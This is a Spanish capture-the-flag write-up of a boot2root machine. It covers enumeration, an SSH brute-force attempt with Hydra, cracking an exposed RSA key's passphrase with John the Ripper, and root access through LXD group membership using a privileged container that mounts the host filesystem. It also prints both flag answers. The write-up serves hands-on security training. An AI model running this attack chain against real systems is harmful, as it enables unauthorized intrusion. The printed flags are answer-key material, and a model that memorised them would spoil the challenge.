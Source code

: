 # 1. Boot2root

¿Puedes acceder a este servidor de juegos creado por aficionados sin experiencia en desarrollo web y aprovechar el sistema de implementación?

## a) ¿Cuál es la flag de usuario?

Comenzamos haciendo un escaneo nmap básico para conocer los puertos abiertos y los servicios. Usamos:

```
nmap -sV -T5 10.10.74.15
```

Lo que nos muestra los puertos 22 y 80 abiertos, un servicio SSH y un servidor web Apache.

![](IMG/Pasted%20image%2020250416010821.png)

Echamos un vistazo a la página web, que parece ser una web de juegos de rol.

![](IMG/Pasted%20image%2020250416010929.png)

En el código fuente de la página principal, encontramos un comentario que se trata de un mensaje para un tal "john", en el que le indican que cambie el contenido de la página.

![](IMG/Pasted%20image%2020250416011109.png)

Seguimos buscando por la página y no parece tener mucho contenido, lo único interesante es un botón con el nombre "Uploads".

![](IMG/Pasted%20image%2020250416011213.png)

si accedemos a dicho botón nos muestra los archivos que se han subido. los descargaremos para ver el contenido en busca de alguna pista.

![](IMG/Pasted%20image%2020250416011436.png)

El archivo dict.lst parece ser una especie de diccionario de contraseñas.

![](IMG/Pasted%20image%2020250416011543.png)

El siguiente archivo "manifesto.txt" es un texto que aparentemente no nos aporta nada útil.

![](IMG/Pasted%20image%2020250416011735.png)

Y la imagen "meme.jpg", parece ser eso, un simple meme, si mas adelante no encuentro nada más, la analizaré en busca de algo oculto con esteganografía.

![](IMG/Pasted%20image%2020250416011852.png)

miro por si hubiera un archivo robots.txt, y lo hay, pero en el solo nos dice que está permitido el acceso a un directorio llamado /uploads/ que es el que ya conocemos.

![](IMG/Pasted%20image%2020250416012344.png)

Como ya tenemos un posible diccionario, y un posible nombre de usuario (john, el que aparecía en el código fuente de la página), probaré a conectarme por SSH haciendo fuerza bruta con ese diccionario usando hydra.

```
hydra -l john -P dict.lst 10.10.74.15 ssh
```

Y, no hemos tenido suerte.

![](IMG/Pasted%20image%2020250416012554.png)

Así que buscaré si hay mas directorios en la web con Gobuster, si no los hay, tiraremos por la opción de analizar la imagen del meme.

```
gobuster dir -u http://10.10.74.15 -w /usr/share/dirb/wordlists/common.txt
```

Bien ademas de los directorios que ya conocíamos, ahora vemos que hay otro directorio llamado /secret, el nombre es sospechoso de ocultar algún secreto al menos.

![](IMG/Pasted%20image%2020250416012849.png)

Al acceder a el, encontramos un archivo llamado "secretKey".

![](IMG/Pasted%20image%2020250416012935.png)

Es una clave RSA. quizás podamos conectarnos por SSH usando esta clave. La descargaremos y probaremos. (la guardamos en un fichero y le daremos permisos con chmod 400, ya que si le damos demasiados permisos la denegará)

![](IMG/Pasted%20image%2020250416013014.png)

Probamos a conectar usando la clave.

```
ssh -i secretKey john@10.10.74.15
```

Y, parece ser que el archivo de la clave tiene contraseña

![](IMG/Pasted%20image%2020250416013801.png)

Probamos a usar john the ripper con el diccionario que antes no nos sirvió, por si diera la casualidad de que el diccionario fuera para este archivo. Primero convertimos el archivo con la clave al formato para que john the ripper pueda usarla.

```
ssh2john secretKey.txt > gaminghash
```

y, una vez convertida al formato, ejecutamos john the ripper, lo cual nos da como resultado la contraseña para el archivo de la clave.

![](IMG/Pasted%20image%2020250416014543.png)

Volvemos a intentar conectarnos por SSH usando el archivo de clave RSA.

```
ssh -i secretKey.txt john@10.10.74.15
```

Y, ahora sí, hemos podido conectarnos correctamente.

![](IMG/Pasted%20image%2020250416014651.png)

Ya conectados, buscaremos el archivo con la flag de usuario (user.txt) y lo abriremos.

![](IMG/Pasted%20image%2020250416014812.png)

**Respuesta: a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e**

## b) Cuál es la flag de root?

En este punto, no sabía ya por donde tirar, así que buscando por internet, entre alguna guía, pistas, un poco de aquí y de allí...

La pista nos la dan con los grupos a los que pertenece el usuario john, el cual pertenece, entre otros, al grupo "lxd"

![](IMG/Pasted%20image%2020250416023319.png)

LXD, es un gestor de contenedores de Linux, y por lo visto, aprovechar una vulnerabilidad de este servicio es la forma que tenemos para explotar esta máquina. Crearemos un contenedor que será el que nos proporcione el acceso root. Podemos ver la explicación y el proceso en este [enlace](https://www.hackingarticles.in/lxd-privilege-escalation/)

Lo primero que haremos será descargar lo necesario para crear el contenedor, de [aquí](https://github.com/saghul/lxd-alpine-builder) (podríamos hacerlo desde la máquina objetivo, pero como en nuestro caso no tiene conexión a internet, lo descargaremos en nuestra máquina y lo pasaremos con un servidor web sencillo.)

![](IMG/Pasted%20image%2020250416024934.png)

Una vez descargado, desde el directorio donde está descargado iniciamos un servidor web.

```
sudo python3 -m http.server 80
```

![](IMG/Pasted%20image%2020250416025124.png)

Y solicitamos el archivo desde la máquina objetivo.

```
wget http://10.8.16.0:80/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

![](IMG/Pasted%20image%2020250416025316.png)

Ahora importamos la imagen, asignandole un alias para que sea mas fácil su uso.

```
lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias gaming
```

![](IMG/Pasted%20image%2020250416025448.png)

Una vez importada, iniciamos la imagen:

```
lxc init gaming gg -c security.privileged=true
```

![](IMG/Pasted%20image%2020250416025610.png)

Ahora, añadimos el directorio raíz de la máquina objetivo con todo su contenido en la imagen.

```
lxc config device add gg mydevice disk source=/ path=/mnt/root recursive=true
```

![](IMG/Pasted%20image%2020250416025750.png)

Iniciamos el contenedor creado y una vez iniciado, iniciamos en el una terminal bash

```
lxc start gg
lxc exec gg /bin/sh
```

![](IMG/Pasted%20image%2020250416025921.png)

Y veremos que somos usuario root.

![](IMG/Pasted%20image%2020250416025947.png)

Ahora solo tenemos que buscar la ruta donde está el archivo root.txt y abrirlo.

![](IMG/Pasted%20image%2020250416030103.png)

**Respuesta: 2e337b8c9f3aff0c2b3e8d4e6a7c88fc**